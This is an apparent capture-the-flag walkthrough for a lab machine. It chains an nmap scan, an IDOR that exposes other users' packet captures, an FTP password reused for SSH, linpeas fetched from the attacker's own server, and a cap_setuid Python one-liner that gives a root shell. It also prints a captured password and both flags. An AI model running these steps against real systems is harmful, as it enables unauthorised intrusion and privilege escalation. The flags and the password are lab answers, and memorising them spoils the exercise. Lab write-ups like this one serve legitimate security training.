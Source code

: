 
----------
## Task 1

How many TCP ports are open?

## Solution 1

Run the scan via the Nmap:

```sh
nmap -sV 10.10.10.245
```

And this shows the open TCP ports, which in our case is three.

```sh
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
```

-----------
## Task 2

After running a "Security Snapshot", the browser is redirected to a path of the format `/[something]/[id]`, where `[id]` represents the id number of the scan. What is the `[something]`?

## Solution 2

On the page, there is a functionality "Security Snapshot", when we click on that one, it goes to a Security Dashboard whose URL is `/data/40`, so the answer to this is `data`.

------------
## Task 3

Are you able to get to other users' scans?

## Solution 3

As we saw on the previous task, the URL was `/data/40` which generates a `.pcap` security report, and if we open that with `Wireshark` we see that its just that.

The important point here is that in the URL there is an ID, which may suggest that there may be and `IDOR` vulnerability, so let's test it by giving some other number.

I gave some random numbers, such as 7, and downloaded the report, I see that it's the same source IP address, so it's ours.

But, when I gave the 0 as ID, it produced much more results, and there are different IP-s which are not mine, so yes, I can see other users scans, utilizing the IDOR vulenrability.

-------------
## Task 4

What is the ID of the PCAP file that contains sensitive data?

##  Solution 4

As was shown in the previous task, it is 0.

-----------

## Task 5

Which application layer protocol in the pcap file can the sensitive data be found in?

## Solution 5

On the Wireshark from the `0.pcap` we see sensitive information such as `username = nathan` and `password = Buck3tH4TF0RM3!` on the `ftp` protocol, so the answer here is `ftp`.

-------------

## Task 6

We've managed to collect nathan's FTP password. On what other service does this password work?

## Solution 6

From the **Task 1** we saw an `ssh` service, so we try to connect to that with the found credentials.

```sh
ssh nathan@10.10.10.245
```

And when provided with the password it connected to it, so the answer is `ssh`.

----------

## Task 7

Submit the flag located in the nathan user's home directory.

## Solution 7

We now are logged in on the `/home/nathan` directory, and we list the files:

```sh
ls -l
total 820
-rwxrwxr-x 1 nathan nathan 828287 Apr  2  2023 linpeas.sh
drwxr-xr-x 3 nathan nathan   4096 Mar 16 11:24 snap
-r-------- 1 nathan nathan     33 Mar 16 03:12 user.txt
```

I open the `user.txt`:

```sh
cat user.txt
9f961b671cb52c104970990247004b94
```

And this is the flag.

----------

## Task 8

What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

## Solution 8

Let's download the `linPEAS` a Linux privilege escalation tool.

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

But, this didn't work, as it was unable to resolve the host address, so I will download this to my machine, and then download it from the target machine.

```sh
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Then start a server, such as the one with python:

```sh
python3 -m http.server
```

Now, download it to the target machine:

```sh
wget http://10.10.14.187:8000/linpeas.sh
```

Add the execution permissions:

```sh
chmod +X linpeas.sh
```

And from the results we see a highlighted file that is a *file with capabilities*:

```sh
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The answer to this task is `/usr/bin/python3.8`.

-----------

## Final Task

Submit the flag located in root's home directory.

## Solution

File with capabilities means that the binary has the `CAP_SETUID` capability set or it is executed by another binary with the capability set.

And being such, it can be used to manipulate the process UID and escalate privileges

This can be done by executing:

```sh
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Now I'm root:

```sh
whoami
root
```

Navigate to the root's home folder.

```sh
cd /root
```

There we have a `root.txt` file, which has the flag:

```sh
cat root.txt
a123e36a0476425550c6432f5d403cbe
```

Which is the final flag and solves the lab.

